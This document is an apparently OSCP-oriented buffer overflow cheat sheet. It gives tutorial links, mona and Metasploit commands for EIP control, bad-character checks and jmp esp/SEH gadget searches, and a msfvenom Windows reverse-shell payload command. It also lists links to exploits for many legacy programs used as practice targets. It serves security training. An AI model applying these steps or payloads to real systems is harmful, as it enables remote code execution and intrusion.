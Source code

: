 # Buffer Overflow Cheat Sheet
## Tutorials / Methodologies
* https://github.com/gh0x0st/Buffer_Overflow
* https://infosecsanyam261.gitbook.io/tryharder/buffer-overflow
* https://blog.own.sh/introduction-to-network-protocol-fuzzing-buffer-overflow-exploitation/
* https://veteransec.com/2018/09/10/32-bit-windows-buffer-overflows-made-easy/
* https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow
* https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://eazeysec.com/BOF-Method/
* http://www.primalsecurity.net/tutorials/exploit-tutorials/
* http://www.fuzzysecurity.com/tutorials.html
* Jump to shellcode:
  * https://www.abatchy.com/2017/05/jumping-to-shellcode.html
  * https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/

## Common Tips
1. Running Vulnerable-apps, then use netcat to makesure the shell connection, and test the function for buffer storing
```
netcat <target_ip> <port>
```

2. Fuzzing ([Script]())

3. Add pattern for crash replication and controlling EIP
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
```

  4. Compare the bad chars
```
   !mona bytearray
   !mona compare -f C:\mona\output.bin -a <address>
```

  5. keep the same order of outputs
```
msf-nasm_shell
   nasm > jmp esp
   00000000  FFE4              jmp esp
```

  6. show and select a dll module
```
!mona modules
```  
  7. find address of "jmp esp" (xff xe4)
```
!mona find -s "\xff\xe4" -m "suspectmodule.dll"
```
  8. find "pop,pop,ret" for SEH
```
!mona seh -m "$module"
```
  9. generate Windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f c -e x86/shell -b "\x00"
```

## Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/): A powerful new way to write exploits, analyze malware, and reverse engineer binary files ([whitepaper](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982), [course](https://yaksas-csc.teachable.com/p/immunity-debugger-for-exploit-devs-ycsc-lab-essentials))

* [OllyDbg](http://www.ollydbg.de/): A 32-bit assembler level analysing debugger for Microsoft Windows ([tut]())

* [Windbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows ([tut]())

* [edb](https://github.com/eteran/edb-debugger): A Linux equivalent of the famous Olly debugger on the Windows platform.

* [Boofuzz](https://github.com/jtpereyda/boofuzz): Network Protocol Fuzzing for Humans

* [mona](https://github.com/corelan/mona): A Python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform) ([tut](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/), [cheatsheet](https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/))
```
!mona findmsp
!mona modules [ -o ]: (-o: only in the application which is more reliable)
!mona jmp -r esp [ -o ] 
!mona seh       
!mona seh -m -o
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\pcmanftpd2\bytearray.bin -a 0012ED6C
!mona find -s "\xff\xe4" -m "libspp.dll"
!mona findmsp
```
* [WinDBG](http://www.windbg.org/): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows

## Exploitation for Practice
* PWK 2020
  * - [x] SyncBreeze version 10.0.28 ([exploit](https://www.exploit-db.com/exploits/42928), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/10-real-world-scenarios-part2))
  * - [x] PWK Crossfire-server 1.9.0 ([exploit](https://www.exploit-db.com/exploits/1582))
  * - [x] PWK Extra Mile Exercises: VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe
  * - [x] PWK Fixing Exploits Sync Breeze Enterprise 10.0.28
* Vunlserver ([github](https://github.com/stephenbradshaw/vulnserver), [tut](http://www.thegreycorner.com/p/vulnserver.html?m=1), [exploited functions](https://limbenjamin.com/articles/vulnserver-order-of-difficulty.html), [TRUN exploit](https://fullpwnops.com/vulnserver-trun/))
* Easy File Sharing Web Server 7.2 ([exploit](http://strongcourage.github.io/2020/04/19/bof.html), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/11-real-world-scenarios-part3), [tut](https://h0mbre.github.io/Easy_File_Sharing_Web_Server/))
* Seattle Lab Mail (SLmail) 5.5 ([python exploit](https://www.exploit-db.com/exploits/638), [C exploit](https://www.exploit-db.com/exploits/646))
* Freefloat FTP Server 1.0 ([exploit](https://www.exploit-db.com/exploits/17546))
* MiniShare 1.4.1 ([exploit](https://www.exploit-db.com/exploits/636))
* Savant Web Server 3.1 ([exploit](https://www.exploit-db.com/exploits/10434))
* WarFTP 1.65 ([exploit](https://www.exploit-db.com/exploits/3570))
* BigAnt Server 2.52 ([exploit](https://www.exploit-db.com/exploits/10973), [tut](http://www.primalsecurity.net/0x3-exploit-tutorial-buffer-overflow-seh-bypass/))
* ASX to MP3 Converter 1.82.50 ([exploit](https://www.exploit-db.com/exploits/38457), [tut](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/))
* Easy RM to MP3 Converter ([exploit](https://www.exploit-db.com/exploits/9186))
* Zip-n-Go 4.9 ([exploit](https://www.exploit-db.com/exploits/44828), [FileFuzz](http://www.fuzzing.org/wp-content/FileFuzz.zip))
* IDSECCONF 2013 myftpd challenge ([tut-xp](https://buffered.io/posts/idsecconf-2013-myftpd-challenge/), [tut-win7](https://buffered.io/posts/myftpd-exploit-on-windows-7/))
* QuickZip 4.x ([exploit](https://www.exploit-db.com/exploits/11656), [tut1](https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/), [tut2](https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/))
* Easy Chat Server 3.1 ([tut](https://www.onsecurity.co.uk/blog/buffer-overflow-easy-chat-server-31))
* dostackbufferoverflowgood ([exploit & tut](https://github.com/justinsteven/dostackbufferoverflowgood))
* Vulnhub machines: [Brainpan series](https://www.vulnhub.com/series/brainpan,32/), [SmashTheTux: 1.0.1](https://www.vulnhub.com/entry/smashthetux-101,138/), [Cyberry: 1](https://www.vulnhub.com/entry/cyberry-1,217/), [Pinky’s Palace series](https://www.vulnhub.com/series/pinkys-palace,151/), [Lord Of The Root: 1.0.1](https://www.vulnhub.com/series/lord-of-the-root,67/)

### Structured Exception Handler (SEH)
* Konica Minolta FTP Utility 1.00 ([exploit](https://www.exploit-db.com/exploits/39215), [tut](https://www.youtube.com/watch?v=v0C4M0UpDbc))
* Millenium MP3 Studio 2.0 ([exploit](https://www.exploit-db.com/exploits/10240), [tut](https://fullpwnops.com/local-seh-overflow/))
* IntraSRV 1.0 ([exploit](https://cxsecurity.com/issue/WLB-2019100164), [tut](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/))
* File Sharing Wizard 1.5.0 ([exploit](https://www.exploit-db.com/exploits/47412), [tut](https://fullpwnops.com/CVE-2019-16724-Remote-Unauthenticated-SEH-overflow/))

### More Targets
* https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
* https://exploit.education/
* https://overthewire.org/wargames/narnia/
* Useful links: https://github.com/security-prince/PWK-OSCP-Preparation-Roadmap/blob/master/BOF

### Advanced Topics for OSCE
* Windows drivers: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
* https://github.com/dhn/OSCE
* https://purpl3f0xsec.tech/2019/06/18/osce-prep-1.html
* Windows Exploitation Pathway
* https://github.com/epi052/OSCE-exam-practice

## Books
* Hacking - The Art of Exploitation
* The Shellcoder’s Handbook: Discovering and Exploiting Security Holes
* Buffer Overflow Attacks: Detect, Exploit, Prevent
* Writing Security Tools and Exploits
* Penetration Testing with Shellcode: Detect, exploit, and secure network-level and operating system vulnerabilities
```
# From Kali, run first
~/OSCP/windows_buffer_overflows$ nc -l -p 1234 > VulnApp1.exe
# From Windows
C:\Tools\windows_buffer_overflows> nc -w 3 192.168.119.223 1234 < VulnApp1.exe

# Windows 10: Bridged Adapter network
# Kali: NAT network
```

* Download windows 10 x86 ISO: https://www.microsoft.com/en-gb/software-download/windows10ISO

# 
_Reffrence http://strongcourage.github.io/2020/04/19/bof.html_
